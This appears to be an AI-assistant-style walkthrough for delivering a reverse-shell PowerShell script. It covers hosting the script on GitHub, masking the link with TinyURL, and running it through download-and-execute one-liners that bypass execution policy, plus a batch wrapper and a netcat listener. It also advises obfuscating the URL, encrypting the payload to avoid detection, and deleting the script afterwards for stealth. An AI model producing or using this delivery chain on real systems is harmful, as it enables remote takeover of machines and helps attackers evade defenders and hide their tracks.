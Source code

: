 To pull the script down from the internet, you can host it on a platform like **GitHub** or **Pastebin**, then shorten the URL with a service like **TinyURL** or **Bit.ly** to simplify the download process. Here's how you can do that, step by step:

### 1. **Host the Script on GitHub**

#### Steps to Upload the Script to GitHub:
1. **Create a GitHub Repository**:
   - Go to [GitHub](https://github.com/) and sign in (or create an account).
   - Create a new repository (private if possible for security) and name it appropriately (e.g., `windows-competition-scripts`).
   
2. **Upload the Script**:
   - In the repository, click on "Add file" and upload the `.ps1` file (e.g., `reverse_shell.ps1`).

3. **Copy the Raw Script URL**:
   - Once uploaded, navigate to the script file in your repository.
   - Click on the `Raw` button to get the direct link to the script.
   - Copy the URL, which will look something like:
     ```
     https://raw.githubusercontent.com/<username>/<repository>/main/reverse_shell.ps1
     ```

### 2. **Shorten the URL Using TinyURL or Bit.ly**

To simplify downloading the script, use a URL shortener:

1. **TinyURL**:
   - Go to [TinyURL](https://tinyurl.com/).
   - Paste the GitHub Raw URL into the input field and click "Make TinyURL!"
   - This will generate a short URL that you can use to download the script, e.g., `https://tinyurl.com/xyz123`.

2. **Bit.ly (Optional)**:
   - Alternatively, you can use [Bit.ly](https://bitly.com/) for more control over the link (tracking clicks, custom link name, etc.).

### 3. **Pulling Down and Running the Script**

Now that the script is hosted and the URL is shortened, here’s how you can download and run the script directly from the command line.

#### **Download and Execute via PowerShell**

1. **Open PowerShell as Administrator**.

2. **Download and Run the Script** using the shortened URL:

   ```powershell
   $url = "https://tinyurl.com/xyz123"  # Replace with your TinyURL link
   $file = "C:\Windows\Temp\reverse_shell.ps1"
   
   Invoke-WebRequest -Uri $url -OutFile $file
   powershell.exe -ExecutionPolicy Bypass -File $file
   ```

3. **Set Up Listener on Your Attack Machine**:
   As described earlier, you can use **Netcat** or **Metasploit** to listen for the reverse shell:

   ```bash
   nc -lvp 4444
   ```

### 4. **Additional Considerations for Stealth and Safety**
   
- **GitHub Repository Settings**: 
   - Make the repository **private** if you don't want others accessing it, but ensure you have access to the link for yourself.
   
- **URL Obfuscation**: 
   - You could further obfuscate the TinyURL by adding additional redirects or using services that make the URL look more benign.

- **Encryption**: 
   - For additional security and to prevent detection, you could encrypt or obfuscate the payload in the `.ps1` script.

### 5. **Run with Minimal Interaction**

You can also simplify running the script by automating the download and execution in a one-liner:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://tinyurl.com/xyz123' -OutFile 'C:\Windows\Temp\reverse_shell.ps1'; Start-Process -FilePath 'C:\Windows\Temp\reverse_shell.ps1'"
```

### What Would Make This Process Easier?

To wrap the **download** and **execution** process in a single PowerShell command, you can leverage **`Invoke-WebRequest`** to download the script and **`Start-Process`** (or simply calling the script) to execute it, all in one line.

Here’s how you can automate downloading and executing the script from the internet in one go:

### 1. **PowerShell One-Liner (Direct Execution)**

This one-liner will both download the script and immediately run it without saving it permanently on the disk:

```powershell
powershell -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://tinyurl.com/xyz123' -UseBasicParsing).Content | powershell -"
```

### Explanation:
- **`-ExecutionPolicy Bypass`**: Ensures PowerShell runs without restrictions.
- **`Invoke-WebRequest`**: Downloads the script from the specified URL.
- **`-UseBasicParsing`**: Uses basic parsing for the downloaded content to avoid some issues on machines without Internet Explorer.
- **`| powershell -`**: Pipes the content of the script directly into PowerShell for execution without saving it to a file first.

### 2. **PowerShell One-Liner (Download and Save to File, Then Execute)**

If you want to download the script, save it temporarily to disk, and then execute it, you can use this command:

```powershell
powershell -ExecutionPolicy Bypass -Command "$url='https://tinyurl.com/xyz123'; $file='C:\Windows\Temp\reverse_shell.ps1'; Invoke-WebRequest -Uri $url -OutFile $file; Start-Process -FilePath $file"
```

### Explanation:
- **`$url='https://tinyurl.com/xyz123'`**: Defines the TinyURL link or direct link to the script.
- **`$file='C:\Windows\Temp\reverse_shell.ps1'`**: Specifies where to save the script on the local machine (in this case, `C:\Windows\Temp`).
- **`Invoke-WebRequest -Uri $url -OutFile $file`**: Downloads the script to the specified file location.
- **`Start-Process -FilePath $file`**: Executes the downloaded script.

### 3. **Complete PowerShell Script (For Multiple Uses)**

If you want to wrap this into a PowerShell script (instead of a one-liner) for more complex automation, you can create a script like this:

```powershell
# Define the URL to download the script from
$url = "https://tinyurl.com/xyz123"

# Specify the location to save the downloaded script
$file = "C:\Windows\Temp\reverse_shell.ps1"

# Download the script and save it to the specified location
Invoke-WebRequest -Uri $url -OutFile $file

# Execute the downloaded script
Start-Process -FilePath $file

# (Optional) Remove the script after execution for stealth
Remove-Item -Path $file -Force
```

### How to Run It:

1. **Open PowerShell as Administrator**.
   
2. **Execute the One-Liner**:
   Copy and paste the one-liner into the PowerShell terminal to immediately download and run the script.

3. **Automating via Command Line or Script**:
   You can place the one-liner into a batch script or call it directly from other programs. For example, you could place the one-liner in a `.bat` or `.cmd` file for easier execution in environments where you can run batch files.

   Example batch file (`run_script.bat`):
   
   ```batch
   @echo off
   powershell -ExecutionPolicy Bypass -Command "$url='https://tinyurl.com/xyz123'; $file='C:\Windows\Temp\reverse_shell.ps1'; Invoke-WebRequest -Uri $url -OutFile $file; Start-Process -FilePath $file"
   ```

This automates the entire process, making it easier to run from the command line, scripts, or other tools that you may be using in your Windows environment.
